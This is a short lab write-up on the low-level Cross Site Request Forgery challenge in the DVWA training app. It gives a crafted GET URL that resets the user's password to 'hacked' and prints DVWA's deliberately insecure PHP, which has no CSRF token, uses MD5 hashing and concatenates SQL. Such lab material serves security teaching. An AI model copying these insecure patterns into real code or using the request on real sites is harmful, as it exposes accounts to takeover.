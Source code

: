 # Cross Site Request Forgery - Low 

## Attack Steps: 

1. Navigate to target page: 
    - http://<ip address>/dvwa/vulnerabilities/csrf

2. Edit the url to the following: 
    - http://<ip address>>/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change#

3. Logout 

4. Login with the new password we set 

## Vulnerable Code Analysis 

### File Path:
`/var/www/dvwa/vulnerabilities/csrf/source/low`

#### Key Vulnerability Points 

```php 
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Get input
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];

	// Do the passwords match?
	if( $pass_new == $pass_conf ) {
		// They do!
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update the database
		$current_user = dvwaCurrentUser();
		$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
		$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

		// Feedback for the user
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```


